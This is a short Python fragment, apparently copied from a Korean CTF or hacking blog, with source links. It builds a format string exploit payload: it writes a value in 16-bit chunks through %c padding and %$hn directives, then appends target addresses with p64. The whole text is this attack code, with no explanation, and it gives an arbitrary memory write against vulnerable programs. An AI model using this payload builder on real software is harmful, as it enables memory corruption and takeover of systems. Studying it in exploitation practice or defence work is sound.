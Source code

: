 ```python

for i in range(3):
    target = (value >> (i * 16)) & 0xffff
    
    if prev < target:
        payload += '%{}c'.format(target - prev)
    elif prev > target:
        payload += '%{}c'.format(0x10000 + target - prev)

    payload += '%xx$hn'
    prev = target

payload += 'A' * (8 - len(payload) % 8)

for i in range(3):
    idx = payload.find("%xx$hn")
    off = offset + (len(payload) / 8) + i
    payload = payload[:idx] + '%{}$hn'.format(off) + payload[idx+6:]

for i in range(3):
    payload += p64(addr + i * 2)

return payload
```
- 출처 : [https://blog.naver.com/yjw_sz/221870980708](https://blog.naver.com/yjw_sz/221870980708)

- 참고사이트
    1. [https://blog.ba0bab.kr/172](https://blog.ba0bab.kr/172)
    2. [https://m.blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221559719664&proxyReferer=http%3A%2F%2F211.55.147.235%2Ftm%2Fnt%2Fnewchada.das](https://m.blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221559719664&proxyReferer=http%3A%2F%2F211.55.147.235%2Ftm%2Fnt%2Fnewchada.das)